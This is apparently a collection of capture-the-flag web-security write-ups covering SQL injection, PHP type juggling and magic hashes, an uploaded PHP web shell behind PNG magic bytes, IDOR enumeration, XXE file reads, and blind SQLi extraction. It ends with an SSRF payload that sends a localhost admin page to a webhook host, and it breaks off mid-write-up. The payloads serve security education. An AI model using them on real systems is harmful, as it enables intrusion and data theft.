curl -s -X POST [https://jupiter.challenges.picoctf.org/problem/64649/login.php](https://jupiter.challenges.picoctf.org/problem/64649/login.php) --data "username=admin'--&password=123&debug=1"
```

### Problem - 54 : ( Console )

Can you win in a convincing manner against this chess bot? He won't go easy on you!You can find the challenge [here](http://verbal-sleep.picoctf.net:63762/) .

Solution :


The challenge mentions to win in chess against the bot to get the flag but I checked the source code first regardless. So when first opening the page and looking at the html source of the index file you can see two script sections. Here is the first one:

```jsx
<script>
    var ws_address = "ws://" + location.hostname + ":" + location.port + "/ws/";
    const ws = new WebSocket(ws_address);

    ws.onmessage = (event) => {
        const message = event.data;
        updateChat(message);
    };

    function sendMessage(message) {
        ws.send(message);
    }

    function updateChat(message) {
        const chatText = $("#chatText");
        chatText.text(message);
    }
</script>

```

One key thing you can see here is that they use a sendMessage function that will be used in the next script section. The next part is pretty long so I just included the important part to note of the second section near the end of the script tag:

```jsx
...
else if (event.data.startsWith(`info depth ${DEPTH}`)) {
    var splitString = event.data.split(" ");
    if (event.data.includes("mate")) {
        message = "mate " + parseInt(splitString[9]);
    } else {
        message = "eval " + parseInt(splitString[9]);
    }
    sendMessage(message);
}
```

You can see it uses both mate and eval for the message and if it has mate then it means checkmate. You can use [Burp Suite](https://portswigger.net/burp), but since this problem is fairly simple you can just use the console in dev tools. By using the function `sendMessage` they created which is just `ws.send(message)` you can test out different values. Let's say you try to use the value one with "mate " as a part often message like this :


`sendMessage("mate 1")`

After sending this in the console it says "drown in 1 moves" and if you increase the value it can just go on 2, 3, 4, and so on.


Putting in 0 makes the message say "eventually checkmate me" and when putting in negative values like -1 nothing changes even when you increase the negative values. So just by using the basic eval you get better results with negative values:

`sendMessage("eval -1000000000")`


That gives the flag. You can try many different values if you'd like to see how the system reacts to it and better understand.


For instance -50,000 is the threshold between "you're quite the chess shark" and giving the flag. So this is the largest number you can send to get the flag:

`sendMessage("eval -50001")`

Flag: `picoCTF{c1i3nt_s1d3_w3b_s0ck3t5_e5e7...}`

### Problem - 54 : (PHP_Vulnerabilities_type_juggling)

I found a web app that claims to be impossible to hack!Try it [here](http://verbal-sleep.picoctf.net:56613/)!

***Concept :***

*🌀 **PHP Type Juggling ,***

**Definition:**

PHP automatically converts (or "juggles") variable types when comparing or operating on them. This can lead to unexpected behavior.

**Example:**

```php
if ("0e1234" == 0) {
    echo "Equal!";
}
```

✅ Output: `"Equal!"`

**Why?**

- `"0e1234"` is treated as scientific notation (`0 × 10^1234` = 0).
- `0 == 0` → so the comparison passes.

This is **type juggling** — PHP converts the string to a number **before comparing**.

**Another Example:**

```php
$password_from_user = "0e12345";
$password_from_db = "0e67890";

if ($password_from_user == $password_from_db) {
    echo "Passwords match!";
}
```

✅ This **shouldn't** match, but it **does** because both values are treated as 0.

---

🧨 **PHP Type Confusion**

**Definition:**

Type confusion is a broader **security vulnerability** where PHP (or any language) **treats one data type as another incorrectly**, often due to user input or unsafe assumptions. It’s a kind of bug that attackers can exploit to trick a program into treating something as a different type.

In PHP, it's often tied to **type juggling** during loose comparisons (`==`), especially when checking things like:

- Passwords
- Tokens
- Hashes

**Example Vulnerability:**

```php
if ($_GET['token'] == $real_token) {
    // let user in
}
```

If `$real_token` is `"0e123456"` and the attacker supplies `"0"`, `"0e000"` or similar — they **bypass the check**.

***🛡️ How to Prevent These Issues***

- **Use strict comparisons (`===`)** in PHP.
    
    ```php
    if ($input === $storedValue) { ... }
    
    ```
    
- **Avoid predictable hash formats** like `"0e..."`. Use hash algorithms like `hash('sha256', ...)` instead of `md5()` or `sha1()`.

Solution :

> Initially, the website appears as follows:
> 
> 
> Site Presentation
> 
> 
> 
> Clicking on the `Login` button, I was redirected to the following page:
> 
> Login
> 
> 
> 
> Inspecting the page source, I didn’t find anything interesting, so I decided to inspect the request using `burpsuite`:
> 
> BurpSuite
> 
> 
> 
> Since there’s not much information provided here, I considered a possible bypass with a `PHP Type Confusion`.As, the wappalyzer shows this →
> 
> 
> 
>  Let’s move on to the exploitation phase.
> 

**Initial setup**

> In PHP, when using the weak comparison operator (==), the values being compared are type-converted before the comparison (which doesn’t happen with ===). By sending a data type different from the one used for comparison, you can trigger strange behaviors that result in a True comparison, allowing you to bypass restrictions.
> 

**Exploitation**

> The exploitation is quite simple. Instead of sending a string (as shown in the BurpSuite screenshot), I sent an array in this way: username[]=&pwd[]=a, for example. Once the comparison is made and type juggling occurs, I achieved the bypass and, consequently, obtained the flag.
> 


**Explain :**

> <?php
> 
> 
> if(isset($_POST[“username”]) && isset($_POST[“password”])) {
> 
> $yuf85e0677 = $_POST[“username”];
> 
> $rs35c246d5 = $_POST[“password”];
> 
> *if($yuf85e0677 == $rs35c246d5) {*
> 
> echo “Success”;
> 
> } else {
> 
> if(sha1($yuf85e0677) === sha1($rs35c246d5)) {
> 
> echo file_get_contents(“../flag.txt”);
> 
> } else {
> 
> echo “Success”;
> 
> }
> 
> }
> 
> }
> 
> ?>
> 

**T**his PHP code receives two parameters from a POST request, checks their equality using different methods, and performs specific actions based on the result

It first decodes the parameter names using base64_decode

base64_decode(“\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d”) gives username

base64_decode(“\143\x48\x64\x6b”) gives password

Then it checks if both parameters exist in $_POST

> If both are present
> 
> 
> $_POST[“username”] is stored in $yuf85e0677
> 
> $_POST[“password”] is stored in $rs35c246d5
> 
> *It then checks if the two parameters are equal*
> 
> If they are it outputs base64_decode(“\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d”) which decodes to Success
> 
> *If they are not equal but their sha1 hashes match*
> 
> It reads the contents of the file base64_decode(“\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75”) which decodes to ../flag.txt
> 
> Then it outputs the content of flag.txt
> 

So it may seem that we need to use SHA-1 collision, and find two parameters which are equal and have same SHA-1, this technically possible, but for this challenge it seems like overcomplication.

Intercepting by BurpSuite, we can see that data sends like this :


— —

In this case we can modify the format of the submitted data so that PHP interprets them as arrays instead of strings

Instead of sending

> username=123&pwd=456
> 

Send

> username[]=123&pwd[]=456
> 

When sending data this way

The variables

$yuf85e0677 = $_POST[‘username’]

$rs35c246d5 = $_POST[‘pwd’]

Will store arrays instead of strings

Calling the sha1 function with an array in PHP triggers a warning and returns null

This means both calls

sha1($yuf85e0677)

sha1($rs35c246d5)

Will return null making the condition

if(sha1($yuf85e0677) === sha1($rs35c246d5))

Evaluate as null === null which is true

By submitting data as arrays we’re bypassing the SHA1 collision check without generating a hash collision .

### Problem - 54 : ( Shell_script_uploading )

I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:57207/)!

Solution :

After starting the challenge instance, we navigate to the web app and see a simple page with only one functionality, which is to upload a `PNG` file, specifically.


***The First Payload ,***

Wappalyzer indicates that the web server is using PHP.

We can first test the logic of the uploads by writing a small php cmd payload to a php file called `yo.php` and attempt to upload it in order to see how the web app responds.


I start up Burp Suite and enable FoxyProxy within Firefox to ensure the request will be captured by Burp Suite for further usage later.

With requests going through the Burp Suite proxy, I then try to upload the php file, and receive the following `Error` response from the web server:


Based on the error message, the web server appears to be checking that the file we upload contains `.png` in the file name.

However, `"does not contain"` in this instance implies that the logic may not be sound here, as it likely means that it doesn’t require it to be at the *end* of the file name.

We will test this by using Burp Suite to send the previous request to `Repeater` and modify the file name within the request.


In this attempt, we modified the filename to be `yo.png.php` instead.

After sending the modified request, we indeed get a different response from the web server, indicating that it did accept the new file name, but that it still didn’t accept the uploaded file due to a new error: `"The file is not a valid PNG image"`.

***Magic Bytes ,***

The new error message indicates that the web server is likely checking the file signature, or “magic bytes” of the file to ensure that it matches what it would expect from a PNG file.

Wikipedia has a [**useful list of file signatures**](https://en.wikipedia.org/wiki/List_of_file_signatures) that we can use which indicates that the magic bytes (in hex) for a PNG file is `89 50 4E 47 0D 0A 1A 0A`.

Using this along with the previous information, we can now craft a new php payload to attempt to bypass the file restrictions once more.

***The Final Payload ,***

First, we need to convert the hex bytes of the PNG file signature using CyberChef in order to download a “template”, more or less, for the first part of our final payload.


Using the `From Hex` conversion in CyberChef, we can convert the PNG magic bytes from hex to binary data and then click the floppy disk icon to export this to a file.

We then move the downloaded file to a file called `yo.png.php` and use a text editor to add our php payload from earlier `<?=`$_GET[0]`?>` to the end of the file contents.

All in all, our final payload should look something like this, with the PNG magic bytes at the beginning, and our php payload after it:


***Success ,***

After uploading our final payload using the web app, we can see that the upload succeeded:


However, it doesn’t indicate the directory it uploaded it to, or how it’s “processing” it.

## Code Execution

Using some educated guesses, we can check the web server for the uploaded file under some common directories such as `/images`, `/files`, `/uploads`, etc.

`/uploads` returns a response of `403 Forbidden` indicating that this is likely the directory, and we indeed find that it did upload the file to `/uploads/yo.png.php`.

Therefore, we now have code execution via our php payload, utilizing `?0` as a parameter for our commands which will be executed by the web server.


An `id` shows that we are www-data.

We could get a reverse shell here, but this isn’t really necessary for the challenge, so let’s just explore a bit.

`cat flag.txt` resulted in nothing and `ls` showed that only our php file is in the current directory, so we do have to look a little bit deeper.

An `ls ..` shows that there is a `GAZWIMLEGU2DQ.txt` file in the web server’s root directory…


…which seems to not belong there, so we cat this file, and receive the flag.


***Editor’s Note ,***

I realized after looking at the `ls ..` screenshot above when doing the writeup that you were actually intended to look at `robots.txt` early on in the challenge (which is common practice for web apps)…


which would have clued you in to the `/uploads` directory and the `instructions.txt` file, which contained…


… which would have been helpful, but I think the way I solved it without finding these hints is more in line with what you would expect from real life, so I’m going to leave the writeup the way it is.

Another , shell script command →


Upload that , 


picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}

### Problem - 54 : (PHP_magic_hash)

Strict comparisons can sometimes be the wiser choice for the developers. Match password hash to get the flag! URL: http://43.229.15.186:10003

Solution :


This challenge is exploiting PHP’s loose-comparison “magic hash” vulnerability. Because the code uses `==` rather than `===`, two different MD5 hashes that look like scientific notation (“0e…” followed only by digits) will both be cast to the number 0 when compared, and so will be considered equal.

***Why it works ,***

- Your stored hash is
    
    ```
    0e07766915004133176347055865026311692244
    ```
    
- Any string whose MD5 hash also matches the regex `^0e\d+$` (i.e. starts with “0e” and is followed entirely by digits) will, under PHP’s loose `==` comparison, convert to the float 0 × 10^… = 0.
- Thus:
    
    ```php
    md5(password) == '0e07766915004133176347055865026311692244'
    ```
    
    becomes
    
    ```php
    0 == 0
    ```
    
    which is true.
    

***Known “magic hashes” ,***

Two commonly used examples are:

| Password | MD5 hash |
| --- | --- |
| `240610708` | `0e462097431906509019562988736854` |
| `QNKCDZO` | `0e830400451993494058024219903391` |

Either one will satisfy the comparison.

***Solving the challenge ,***

1. **Choose a magic password**, e.g. `240610708`.
2. **Send your POST** to the challenge URL:
    
    ```wasm
    POST http://43.229.15.186:10003/
    Content-Type: application/json
    
    {
      "password": "240610708"
    }
    ```
    
3. The server sees
    
    ```php
    if (md5("240610708") == "0e07766915004133176347055865026311692244") {
        echo $flag;
    }
    ```
    
    Since both sides are loose-compared as the float 0, you get the flag.
    
    
    


### Problem - 54 : (Encryption_in_source_code)

A lazy developer unintentionally exposed the secret process. Access the admin area to retrieve the flag! URL: http://43.229.15.186:10004

Solution :


Source-code ,

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>CTF Challenge</title>
  <style>
    body { font-family: sans-serif; padding: 20px; }
    .box { background: #f4f4f4; padding: 20px; border-radius: 8px; width: 400px; }
  </style>
</head>
<body>
  <div class="box">
    <h2>Restricted Access</h2>
    <p>This page is for admins only.</p>
    <input type="text" id="codeInput" placeholder="Enter admin code">
    <button onclick="checkCode()">Submit</button>
    <p id="result"></p>
  </div>

  <script>
    const worker = new Worker('worker.js');

    function checkCode() {
      const input = document.getElementById("codeInput").value;
      worker.postMessage(input);
    }

    worker.onmessage = (e) => {
      document.getElementById("result").innerText = e.data;
    };
  </script>
<pre>
<h3>
<font color="red">Warning: Engaging in brute-force attacks or any form of attack on the platform is strictly prohibited.
</font>
</h3>
</pre>
</body>
</html>
```

Source-code of the ***worker.js*** →


```jsx
// Decode flag
function decode(input, decKey) {
  return input.split('').map((char, idx) =>
    String.fromCharCode(char.charCodeAt(0) ^ decKey.charCodeAt(idx % decKey.length))
  ).join('');
}

const pKey = "l1l1l10001ll010l";

// flag
const encoded = "t\u0001T\u0016\u000b\u000e]@r\u0003@b\\_Bq\u0001]\u0010Z^T\u0018r\u0001\u00112\r\u000f\u0015tU";

function decodeKey(input, pKey) {
  return input.split('').map((char, idx) =>
    String.fromCharCode(char.charCodeAt(0) ^ pKey.charCodeAt(idx % pKey.length))
  ).join('');
}

const encKey = ",U\u0001\u0010\u0002ZUIv\u0001\u001e8XXC";

const decKey = decodeKey(encKey, pKey);

onmessage = function (e) {
  const userKey = e.data;

  if (userKey === decKey) {
    const flag = decode(encoded, decKey);
    postMessage(`✅ Flag: ${flag}`);
  } else {
    postMessage("❌ Incorrect code. Try again.");
  }
};
```

A web page at `http://43.229.15.186:10004` presents a simple “Restricted Access” form. Behind the scenes, a JavaScript Web Worker (`worker.js`) contains two XOR‐based routines:

1. **`decodeKey(encKey, pKey)`** – transforms an obfuscated key string into the real admin code (`decKey`).
2. **`decode(encoded, decKey)`** – uses the recovered admin code to decrypt the flag.

The page’s main script posts whatever the user types into the worker, and the worker only returns the flag if the input exactly matches `decKey`.

***Walkthrough ,***

1. **Identify the XOR routines**
    - `decodeKey(encKey, pKey)` yields the real admin code (named `decKey`).
    - `decode(encoded, decKey)` yields the flag once you know `decKey`.
2. **Extract the constants**
    - `pKey`: `"l1l1l10001ll010l"`
    - `encKey`: `",U\u0001\u0010\u0002ZUIv\u0001\u001e8XXC"`
    - `encoded`: `"t\u0001T\u0016\u000b\u000e]@r\u0003@b\\_Bq\u0001]\u0010Z^T\u0018r\u0001\u00112\r\u000f\u0015tU"`
3. **Write a quick script to XOR-decode**
    
    In Python:
    
    ```python
    def xor_strings(data, key):
        return ''.join(
            chr(ord(c) ^ ord(key[i % len(key)]))
            for i, c in enumerate(data)
        )
    
    pKey   = "l1l1l10001ll010l"
    encKey = ",U\u0001\u0010\u0002ZUIv\u0001\u001e8XXC"
    encoded = "t\u0001T\u0016\u000b\u000e]@r\u0003@b\\_Bq\u0001]\u0010Z^T\u0018r\u0001\u00112\r\u000f\u0015tU"
    
    # Step 1: recover the admin code
    decKey = xor_strings(encKey, pKey)
    print("Admin Code:", decKey)
    
    # Step 2: recover the flag
    flag = xor_strings(encoded, decKey)
    print("Flag:", flag)
    ```
    
    Running this yields:
    
    ```
    Admin Code: @dm!nkeyF0rThis
    Flag: 4e97ee8943264611e01451a41cfeff41
    ```
    
4. **Submit the admin code in the UI**
    - Navigate to the page, enter `@dm!nkeyF0rThis` in the input box, and click **Submit**.
    - The page responds with the flag: **`4e97ee8943264611e01451a41cfeff41`**.

---

***Final Flag ,***

```
4e97ee8943264611e01451a41cfeff41
```

---


### Problem - 54 : ( **Insecure Direct Object Reference (IDOR)** )

We are approaching World Telecommunication Day (May 17th) — and to celebrate, we’re thrilled to announce the launch of our first-ever virtual SIM cards with serial 012********, proudly branded under Bonk Telecom! 📶✨ Bonk Telecom is a bold new initiative from the Federal Bonk Investigation (FBI) — a fusion of innovation, chaos, and packet-based fun. As our systems go live, we've noticed some unusual traffic and potential vulnerabilities. We need your help to test the security of this new telecom infrastructure. [URL](http://114.130.119.18:10001/)

Our first SIM card number, 01212121212, was given to AB Bishal. Usually, we send a welcome message to users, but it seems someone was able to sneak a peek at his welcome message. Can you find out how?

Flag format: WTISD{random_string}

Author: AB Bishal

Solution :


Register an account and then log in →


In the inbox we only find a voucher code .You then just claim the voucher first from that ID.Recharge ID We will get that by adding any mobile number from the phonebook option and with that we will get a Inbox with the Recharge ID 


Now , go back to the dashboard and notice the Inbox contains the rechargeID .


Refresh and we will see recharge succesful from FBI →


Source code →

```html
</head>
<body>
    <h1>Hey Ibrahim_reza, Welcome to Bonk Telecom Family.</h1>
    <h2>Number: 01212341234</h2>
    <h2>Balance: 100.0</h2>

    <div class="nav-button" align="right">
        <a href="/phonebook">
            <button>📇 Go to Phonebook</button>
        </a>
        
    </div>

    <div class="section" id="voucher-section">
        <h3>Claim Voucher</h3>
        <input type="text" id="voucher_code" placeholder="Enter voucher code">
        <button id="claim_voucher">Claim</button>
        <div id="voucher_result" class="result-box" style="display:none;"></div>
    </div>

    <div class="section" id="recharge-section">
        <h3>Recharge</h3>
        <input type="text" id="transaction_id" placeholder="Enter transaction ID">
        <button id="recharge_button">Recharge</button>
        <div id="recharge_result" class="result-box" style="display:none;"></div>
    </div>

    <div class="section">
        <h3>Inbox</h3>
        <ul id="inbox_list">
            
                <li class="inbox-item" data-id="1373">FBI (2025-05-13 14:49:48)</li>
            
                <li class="inbox-item" data-id="1374">FBI (2025-05-13 14:56:17)</li>
            
                <li class="inbox-item" data-id="1375">FBI (2025-05-13 14:59:41)</li>
            
        </ul>
        <div id="message_box"></div>
    </div>

    <script>
        // AJAX: Load full message
        $('.inbox-item').click(function() {
            const id = $(this).data('id');
            $.get(`/sms/${id}`, function(data) {
                $('#message_box').html(`
                    <strong>From:</strong> ${data.sender}<br>
                    <strong>To:</strong> ${data.receiver}<br>
                    <strong>Time:</strong> ${data.timestamp}<br><br>
                    <strong>Message:</strong><br>${data.content}
                `).show();
            });
        });

        // AJAX: Claim voucher
        $('#claim_voucher').click(function() {
            const voucher = $('#voucher_code').val();
            $.post("/claim_voucher", {voucher: voucher}, function(data) {
                $('#voucher_result').text(data.message).show();
            }).fail(function(xhr) {
                $('#voucher_result').text("Error: " + (xhr.responseJSON?.message || "Unknown error")).show();
            });
        });

        // AJAX: Recharge
        $('#recharge_button').click(function() {
            const transaction_id = $('#transaction_id').val();
            $.post("/recharge", {transaction_id: transaction_id}, function(data) {
                $('#recharge_result').text(data.message).show();
            }).fail(function(xhr) {
                $('#recharge_result').text("Error: " + (xhr.responseJSON?.message || "Unknown error")).show();
            });
        });
    </script>
</body>
</html>
```

Now , lets understand the vulnerabilities →

An **Insecure Direct Object Reference (IDOR)** is when an app lets you fetch any resource simply by plugging its ID into the URL—without ever checking whether you actually own or are allowed to see it.  In our SMS example, the front end does

```
// client-side click handler
$.get(`/sms/${id}`, …)
```

and the server blindly does

```python
@app.route("/sms/<int:id>")
def get_sms(id):
    sms = SMS.query.get(id)            # fetch by primary key
    return jsonify(
        sender=sms.sender,
        receiver=sms.receiver,
        timestamp=sms.ts,
        content=sms.body
    )
```

No check is made to verify `sms.owner_id == current_user.id`, so any logged-in user can just try `/sms/1`, `/sms/2`, … and read other people’s messages.

To fix it, insert that ownership check before returning the data:

```python
@app.route("/sms/<int:id>")
def get_sms(id):
    sms = SMS.query.get(id)
    if sms.owner_id != current_user.id:  # enforce authorization
        abort(403)
    return jsonify( … )
```

Now even if attackers enumerate IDs, they’ll get “403 Forbidden” unless the SMS truly belongs to them .


Flag → `WTISD{Never_Be1ieve_1ns3cur3_References}`


OR → A python script but in this you have to give the cookie value also .


```python
import requests

BASE = "http://114.130.119.18:10001/"
session_cookie = "eyJuYW1lIjoiSWJyYWhpbV9yZXphIiwibnVtYmVyIjoiMDEyMTIzNDEyMzQiLCJ1c2VyX2lkIjo3MTl9.aCNcQg.SjSJavDcqiiy6qpnvpCXlmXJFSc"

s = requests.Session()
s.cookies.set("session", session_cookie)

for sms_id in range(1, 5000):
    r = s.get(f"{BASE}/sms/{sms_id}")
    if r.status_code != 200:
        continue
    data = r.json()
    if data.get("receiver") == "01212121212":
        print(f"→ found AB Bishal’s message at ID = {sms_id}")
        print("flag =", data["content"])
        break
```

### Problem - 54 :

We are approaching World Telecommunication Day (May 17th) — and to celebrate, we’re thrilled to announce the launch of our first-ever virtual SIM cards with serial 012********, proudly branded under Bonk Telecom! 📶✨ Bonk Telecom is a bold new initiative from the Federal Bonk Investigation (FBI) — a fusion of innovation, chaos, and packet-based fun. As our systems go live, we've noticed some unusual traffic and potential vulnerabilities. We need your help to test the security of this new telecom infrastructure. On one of the hacking forum, someone is claiming that they have a large database of phonebook entries which was leaked from our website. As a part of the telecom industry, we want to keep client assets safe. Can you help us understand how they might have gained access to this critical data? [URL](http://114.130.119.18:10001/)

Flag format: WTISD{random_string}

Solution :

Same source code like the prev one . But the phonebook’s source code →

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Phonebook - Bonk Telecom</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0/dist/css/bootstrap.min.css" rel="stylesheet">
    <script>
        async function addContact() {
            const name = document.getElementById("name").value;
            const number = document.getElementById("number").value;
            const user = 719;
            const res = await fetch("/add_contact", {
                method: "POST",
                headers: { "Content-Type": "application/x-www-form-urlencoded" },
                body: new URLSearchParams({ name, number, user })
            });
            const data = await res.json();
            alert(data.message);
            if (data.status === "success") location.reload();
        }
    </script>
</head>
<body class="bg-light">
    <div class="container mt-4">
        <h3>📞 Phonebook</h3>
        <a href="/">← Back to Dashboard</a>
        <div class="card my-3">
            <div class="card-body">
                <h5>Add New Contact</h5>
                <input type="text" id="name" class="form-control mb-2" placeholder="Contact Name">
                <input type="text" id="number" class="form-control mb-2" placeholder="Phone Number">
                <button onclick="addContact()" class="btn btn-primary">Add Contact</button>
            </div>
        </div>
        <div class="card">
            <div class="card-header">Your Contacts</div>
            <ul class="list-group list-group-flush">
                
                <li class="list-group-item">
                    reza - 123
                </li>
                
            </ul>
        </div>
    </div>
</body>
</html>
```

The phonebook page’s JavaScript betrays the core flaw in just a few lines:

```
const user = 719;
fetch("/add_contact", {
  method: "POST",
  body: new URLSearchParams({ name, number, user })
});
```

Because **`user`** is hard-coded (and fully under client control) rather than derived from the session, the backend inevitably trusts whatever ID the attacker supplies. On the server side it likely does:

```python
uid = request.form["user"]                    # untrusted input
entries = PhonebookEntry.query.filter_by(owner_id=uid).all()
return jsonify(entries)
```

No check ensures `uid == current_user.id`, so simply swapping `user=719` for `user=1` (or any other ID) pulls down someone else’s entire contact list.

**Fix:** ignore the client’s `user` field and always use the authenticated user’s ID:

```python
uid = current_user.id   # trusted
entries = PhonebookEntry.query.filter_by(owner_id=uid).all()
```

That single change closes the IDOR and prevents any unauthorized data leakage.

Let’s exploit →

***1. Discover the Vulnerable Parameter ,***

- **Load the Phonebook page** (e.g. `https://…/phonebook`).
- **Open your browser’s Developer Tools** (usually F12) and switch to the **Network** tab or , in burp_suite .


- **Add a new contact** with dummy data (e.g. name “Foo”, number “555”).
- Watch the Network log for the **POST** to `/add_contact` and click on it.

You’ll see a request payload like:

```
name=Foo&number=555&user=719
```

That `user=719` stands out—it’s hard-coded in the JavaScript instead of being derived from your session.

---

***2. Modify the `user` Field ,***

- Right-click the `/add_contact` request in Network and choose “Replay XHR” (or “Resend”).
- In the pop-up editor, change `user=719` to some other ID, say `user=1`.
- Send the request again.


If the backend trusts that `user` value, it will return the contacts belonging to the account with ID 1—even though you’re not logged in as user 1.

Flag → WTISD{Excessive_data_with_id0r_1s_de1icious}

### Problem - 54 : ( XML_Code_as_file_Upload )

```
I've been working on a XML parsing service. It's not finished but there should be enough for you to try out.
The flag is in /var/www
```

Solution :

Visiting the challenge site, we are greeted with a file upload and an XML file viewer. So we try the basic XXE payload that lets us see the `/var/www/flag.txt` file (since this was what the description hinted):

**“ poc.xml “ →**

```html
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>
<root>&test;</root>
```

Uploading it:


Getting the flag →


Flag: `flag{639b72f2dd0017f454c44c3863c4e195}`

### Problem - 54 : ( Blind SQL injection )

Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

`NOTE: this flag does not follow the usual MD5 hash style format, but instead is a short style with lower case flag{letters_with_underscores}`

Solution :

We are given the main bulk of the challenge source code in this challenge, so we can actually set up a local instance. In this case, it might not be necessary as the amount of code is really small.

The directory structure of the given files are:

```html
.
├── Dockerfile
├── requirements.txt
└── src
    ├── app.py
    ├── database.py
    ├── models.py
    └── seed.py
```

In `database.py`, we see that the challenge uses SQLite as the database engine. We also see that the [SQLAlchemy](https://www.sqlalchemy.org/) library is being used:

```html
from sqlalchemy import create_engine
from sqlalchemy.orm import scoped_session, sessionmaker
from sqlalchemy.ext.declarative import declarative_base

engine = create_engine("sqlite:////tmp/test.db")
```

In `models.py`, we see that the challenge has 2 tables, 1 is called `metals` and the other 1 is called `flag` (boy do I wonder which table contains what we want 🤣):

```html
class Metal(Base):
    __tablename__ = "metals"
    atomic_number = Column(Integer, primary_key=True)
    symbol = Column(String(3), unique=True, nullable=False)
    name = Column(String(40), unique=True, nullable=False)

    def __init__(self, atomic_number=None, symbol=None, name=None):
        self.atomic_number = atomic_number
        self.symbol = symbol
        self.name = name

class Flag(Base):
    __tablename__ = "flag"
    flag = Column(String(40), primary_key=True)

    def __init__(self, flag=None):
        self.flag = flag
```

In `seed.py` the function populates the SQLite tables with the metals and flag data.

The main logic of the challenge is found in `app.py`:

```html
@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search))) # [1]
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order)) # [2]
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)
```

We see that in a `POST` request, the input parameters `search` and `order` are used as part of the SQLAlchemy query builder. This means that we could potentially influence the final query to be executed.

At [1], we see that our input parameter `search` is being used in the `filter()` [function](https://docs.sqlalchemy.org/en/14/orm/query.html#sqlalchemy.orm.Query.filter) of SQLAlchemy. Unfortunately, this function will sanitize our input and we would not be able to perform SQL injection here.

However, at [2], observe that inside the `order_by()` function, the `text()` [function](https://docs.sqlalchemy.org/en/14/core/sqlelement.html#sqlalchemy.sql.expression.text) is used to wrap around our `order` variable. This function accepts Raw SQL query strings, and this is where our injection point is at.

To prove our theory, we will attempt to inject quotes into both input fields and see the results. Injecting into the `search` parameter:


Since our injection point is at the `ORDER BY` part, we will not be able to `UNION SELECT` at this stage. This leaves us with a blind SQL injection challenge. In order to extract information, we can sort by different columns, or sort by `ASC` or `DESC` for a single column. Our injection string can therefore be something like:

`(CASE WHEN (SELECT SUBSTR(flag,1,1) FROM flag)='f' THEN atomic_number ELSE symbol END) ASC`

which will sort the results in `ASC` order by:

- `atomic_number` if the first character of the column `flag` in the table `flag` is the letter `f`;
- `symbol` otherwise

Injecting that query above into the challenge site, we see that the first row of the response table is:


We then changed the injected query to:

`(CASE WHEN (SELECT SUBSTR(flag,1,1) FROM flag)='z' THEN atomic_number ELSE symbol END) ASC`

which should show a different first row in the response table:


Since it indeed showed a different sorting order of the table, we can confirm that the SQL injection worked. We can now opt to write a script that can retrieve the flag for us:

```python
import requests
import string
from bs4 import BeautifulSoup

url = 'http://challenge.nahamcon.com:30010/'
flag = 'flag{'
index = 6

# Until we've got the whole flag
while flag[-1] != '}':
    for char in list('_' + string.ascii_lowercase + '}'):  # Charset
        # Post data, orderby is the SQLi (blind boolean)
        data = {"search": "",
                "order": f"(CASE WHEN (SELECT (SUBSTR(flag, {index}, 1)) from flag ) = '{char}' THEN name ELSE atomic_number END) DESC--"}

        response = requests.post(url, data=data)
        # Extract the first value
        extracted = BeautifulSoup(response.text, features="lxml").td.contents[0]

        # If it's 116 (Livermorium) then condition is false
        if extracted != '116':
            flag += char
            print(flag)
            index += 1
            break
```

Running the script, we were able to exfiltrate the flag:


### Problem - 54 : (**`XMLHttpRequest`**)

We all love our hacker t-shirts. Make your own custom ones.

Solution :

This challenge is about a pretty cool Hacker t-shirt page where you can make your own custom t-shirt with a bash command on it. Bummer they aren't selling any shirts...


There was also an admin page at `/admin` , **which was only accessible by `localhost** ! Hmmm, I wonder if the T-Shirt page is vulnerable to **Server-Side Request Forgery (SSRF)** .

One method to check if it is vulnerable to SSRF is by seeing if you can execute Javascript code when the image of the t-shirt is generated. The payload below should overwrite the contents the document and would show on the generated image.

`<**script**>document.write("noice nearly SSRF!");</**script**>`

The first input to test would be the `text` GET parameter in the URL and visiting the page below with the above payload shows that we can execute Javascript code!

`/exploit?text=<script>document.write("noice nearly SSRF!");</script>&color=%2324d600`


*noice*

Now the next thing I needed to figure out was how to exfiltrate the contents of the admin page. Ideally, I would use `fetch` but for the worst case scenarios I use `XMLHttpRequest` if `fetch` unable. To test which method works, I tried both of them to send a request to my webhook using the following payloads for `fetch` and `XMLHttpRequest` respectively.

https://webhook.site/#!/view/d8969120-381d-4496-85f7-33a6544801bd

**Testing `fetch`**

`<**script**>fetch("https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?type=fetch");</**script**>`

**Testing `XMLHttpRequest`**

`<**script**>x=**new** XMLHttpRequest();x.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?type=ohgoditsxmlhttprequest');x.send()</**script**>`

Unfortunately, only `XMLHttpRequest` worked...


Oh well, at least we can use the `onload` function so when the `XMLHttpRequest`has loaded the page I could send the full page contents as `base64` text to my webhook using the following payload.

`<**script**>x=**new** XMLHttpRequest();x.onload=**function**(){y=**new** XMLHttpRequest();y.open('GET','https://webhook.site/c6db1a4c-adad-4d53-b47e-3eee94940202?yeet'+btoa(x.responseText));y.send()};x.open('GET','http://localhost:5000/admin');x.send();</**script**>`


**WAIT WHAT???**

**Why on earth is my payload breaking?!**

